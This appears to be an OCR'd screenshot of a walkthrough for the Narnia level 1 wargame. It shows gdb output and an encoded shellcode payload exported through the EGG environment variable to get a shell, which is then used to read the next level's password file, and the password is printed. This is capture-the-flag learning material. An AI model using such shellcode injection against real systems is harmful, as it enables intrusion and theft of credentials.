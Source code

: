 (gdb) info address getchar
Symbol "getchar" is at 0xf7e77be0 in a file compiled without debugging.


narnia1@narnia:/narnia$ export EGG="0xf7e77be0"

narnia1@narnia:/narnia$ printenv

narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault

(gdb) print (char*)$eax
$1 = 0xffffde95 "0xf7e77be0"

Not working... still a string.

narnia1@narnia:/narnia$ uname -m
x86_64

http://shell-storm.org/shellcode/

narnia1@narnia:/narnia$ export EGG=$(python -c 'print "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"')

"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"

narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
bash-4.4$ cat /etc/narnia_pass/narnia2
nairiepecu
bash-4.4$